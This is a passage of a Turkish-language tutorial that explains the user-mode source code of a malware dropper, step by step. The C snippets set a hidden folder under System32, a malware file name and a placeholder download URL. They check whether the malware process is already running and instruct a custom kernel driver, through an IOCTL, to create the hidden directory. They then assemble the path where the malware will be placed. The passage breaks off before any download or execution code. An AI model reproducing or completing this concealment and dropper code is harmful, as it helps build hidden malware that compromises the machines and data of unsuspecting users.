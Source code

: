 User-mode programımızın kodları da bu şekilde. Şimdi detaylıca göz atalım:

```c
if (argc < 2) {
    printf("Usage: .\\program.exe <PID>\n");
    return -1;
}
CHAR ExecutablePath[0x80] = "C:\\Windows\\System32\\HiddenFile";
CHAR ExecutableName[0x80] = "malwarename.exe";
CHAR ExecutableUrl[0x80] = "https://url";
```

main içerisinde ilk olarak bir kontrol ile başlıyoruz. Bu kontrol, programın başlatılma esnasında parametre verip vermediğini kontrol eden bir kontrol yapısıdır. Eğer parametre verilmediyse programın nasıl kullanılacağına dair bir bilgi verir ve programı sonlandırır.

Daha sonra malware'in düzgün bir şekilde çalışması için gerekli olan değişkenleri tanımlıyoruz. İşte işlevleri:

- **ExecutablePath**: Malware'in indirileceği ve çalıştırılacağı klasörün yolu.
- **ExecutableName**: Malware'in adı.
- **ExecutableUrl**: Malware'in indirileceği URL.

```c
Result = MonitorProcess(CurrentPID);
if (!Result) {
    Result = ConnectDriver(IOCTL_CREATE_DIRECTORY, NULL, 0, NULL, 0);
    if (!Result) {
        Error = GetLastError();
        if (Error != ERROR_ALREADY_EXISTS) {
            printf("Failed to Create Directory! Error Code: 0x%lx\n", Error);
            return -1;
        }
    }
	printf("[*] Directory Path: %s\n", ExecutablePath);
```

Daha sonra MonitorProcess ile sistemde çalışan malware'i dinlemeye alıyoruz. Eğer bu fonksiyonun sonucu 0 yani FALSE olursa bu durumda malware'in çalışmadığını anlarız ve işlemlere başlarız. 

Daha sonra oluşturduğumuz ConnectDriver aracılığıyla sürücümüze IOCTL_CREATE_DIRECTORY kodunu göndererek gizli klasörü oluşturması için talimat gönderiyoruz. **ConnectDriver** fonksiyonunda DeviceIoControl aracılığıyla kodumuzu sürücüye iletir. Eğer bu işlem başarısız olursa hata kodunu ekrana bastırıyoruz ve programı sonlandırıyoruz, ancak sonlandırmadan alınan hata kodunu ERROR_ALREADY_EXISTS ile karşılaştırarak, eğer bu hata kodu ile aynıysa bu durumda klasörün zaten oluşturulduğunu anlarız ve işlemlere devam ederiz.

```c
int result = snprintf(ExecutablePath, sizeof(ExecutablePath), "%s\\%s", ExecutablePath, ExecutableName);
if (result < 0 || result >= sizeof(ExecutablePath)) {
    printf("Failed to construct full path!\n");
    return -1;
}
printf("[*] Malware Path: %s\n", ExecutablePath);
```
